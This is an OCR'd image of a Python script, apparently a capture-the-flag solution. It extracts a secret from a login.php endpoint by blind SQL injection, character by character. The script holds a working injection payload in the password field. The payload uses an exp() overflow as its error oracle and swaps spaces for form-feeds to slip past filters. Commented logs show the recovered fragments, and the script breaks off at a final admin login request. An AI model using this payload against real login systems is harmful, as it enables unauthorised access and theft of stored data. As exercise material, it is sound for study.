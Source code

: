 ```
h2uy erghruigh2uy
2uyg erghruigh2uyg
uygh erghruigh2uygh
ygh2 erghruigh2uygh2
gh2u erghruigh2uygh2u
h2uy erghruigh2uygh2uy
2uyg erghruigh2uygh2uyg
uygh erghruigh2uygh2uygh     
'''

rev_ans = ""
tmp = "$"

for i in range(24):
    for ch in pt:

        payload = f"||1 && username rlike 0x61646d && exp(710-(code rlike binary {str2hex(ch+tmp)}))#"
        #print(payload)

        payload = payload.replace(' ',chr(0x0c))

        data = {
            "username":"eki\\",
            "password":payload,
            "code":"1"
        }

        req = r.post(url+"/login.php",data=data,allow_redirects=False)

        if 'fail' in req.text:
            rev_ans = ch+rev_ans
            print(ch+tmp,rev_ans)
            if len(tmp) == 3:
                tmp = ch+tmp[:-1]
            else:
                tmp = ch+tmp

            break

'''
g$ g
ig$ ig
2ig$ 2ig
32ig 32ig
u32i u32ig
iu32 iu32ig
uiu3 uiu32ig
3uiu 3uiu32ig
23ui 23uiu32ig
h23u h23uiu32ig
gh23 gh23uiu32ig
igh2 igh23uiu32ig
uigh uigh23uiu32ig
ruig ruigh23uiu32ig
hrui hruigh23uiu32ig
ghru ghruigh23uiu32ig
rghr rghruigh23uiu32ig
ergh erghruigh23uiu32ig
'''

data = {
    "username":"admin\\",
```